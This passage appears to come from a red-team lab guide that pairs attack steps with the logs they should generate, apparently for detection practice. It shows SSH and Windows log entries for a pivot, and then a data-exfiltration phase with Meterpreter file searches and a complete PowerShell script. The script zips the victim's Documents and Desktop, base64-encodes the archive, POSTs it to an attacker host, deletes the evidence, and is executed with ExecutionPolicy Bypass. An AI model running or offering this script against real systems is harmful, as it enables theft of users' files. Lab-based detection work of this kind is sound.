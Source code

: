 #### Expected Logs Generated
```bash
# Linux SSH logs
Dec 06 11:30:15 ubuntu sshd[5678]: Accepted password for vulnerable from 10.0.2.102 port 45123 ssh2
Dec 06 11:30:16 ubuntu sshd[5679]: pam_unix(sshd:session): session opened for user vulnerable

# Windows network logs
Event ID: 5156 - Windows Filtering Platform allowed a connection
Application: plink.exe
Direction: Outbound
Protocol: TCP
RemoteAddress: 10.0.2.101
RemotePort: 22
```

### Phase 4: Data Exfiltration (30 minutes)

#### Attacker Actions
```bash
# Search for sensitive files
meterpreter > search -f *.docx -d C:\\Users\\
meterpreter > search -f *.xlsx -d C:\\Users\\
meterpreter > search -f *.pdf -d C:\\Users\\

# Create data collection script
cat > /tmp/collect_data.ps1 << 'EOF'
$outputPath = "$env:TEMP\collected_data.zip"
$sourcePaths = @(
    "$env:USERPROFILE\Documents",
    "$env:USERPROFILE\Desktop"
)

# Compress files
Add-Type -AssemblyName System.IO.Compression.FileSystem
$zip = [System.IO.Compression.ZipFile]::Open($outputPath, 'Create')

foreach ($path in $sourcePaths) {
    if (Test-Path $path) {
        Get-ChildItem $path -Recurse -File | ForEach-Object {
            $relativePath = $_.FullName.Substring($path.Length + 1)
            [System.IO.Compression.ZipFileExtensions]::CreateEntryFromFile($zip, $_.FullName, $relativePath)
        }
    }
}
$zip.Dispose()

# Exfiltrate via HTTP POST
$uri = "http://10.0.2.15:8080/upload"
$fileBytes = [System.IO.File]::ReadAllBytes($outputPath)
$base64 = [System.Convert]::ToBase64String($fileBytes)
Invoke-RestMethod -Uri $uri -Method POST -Body $base64

# Clean up
Remove-Item $outputPath -Force
EOF

# Upload and execute data collection
meterpreter > upload /tmp/collect_data.ps1 C:\\Windows\\Temp\\
meterpreter > execute -f powershell.exe -a "-ExecutionPolicy Bypass -File C:\\Windows\\Temp\\collect_data.ps1" -i
```
